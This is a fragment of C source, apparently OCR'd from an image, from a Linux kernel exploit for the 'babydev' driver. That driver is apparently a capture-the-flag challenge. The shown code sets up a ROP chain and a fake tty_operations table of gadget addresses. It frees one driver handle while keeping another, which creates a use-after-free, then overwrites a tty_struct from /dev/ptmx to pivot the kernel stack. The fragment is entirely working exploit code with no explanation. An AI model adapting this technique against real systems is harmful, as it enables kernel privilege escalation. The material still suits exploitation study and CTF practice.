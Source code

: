 ```C

    rop[i++] = user_rflags;            /* saved EFLAGS */

    rop[i++] = user_sp;

    rop[i++] = user_ss;



	for(int i = 0; i < 30; i++)

	{

		fake_tty_operations[i] = 0xFFFFFFFF8181BFC5; 

	}

    fake_tty_operations[0] = 0xffffffff810635f5;  //pop rax; pop rbp; ret;

    fake_tty_operations[1] = (size_t)rop;

    fake_tty_operations[3] = 0xFFFFFFFF8181BFC5;  // mov rsp,rax ; dec ebx ; ret



    int fd1 = open("/dev/babydev", O_RDWR);

    int fd2 = open("/dev/babydev", O_RDWR);

    ioctl(fd1, 0x10001, 0x2e0);

    close(fd1);



    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);

    size_t fake_tty_struct[4] = {0};

    read(fd2, fake_tty_struct, 32);

    fake_tty_struct[3] = (size_t)fake_tty_operations;

    write(fd2,fake_tty_struct, 32);



    char buf[0x8] = {0};

    write(fd_tty, buf, 8);



    return 0;

}

```
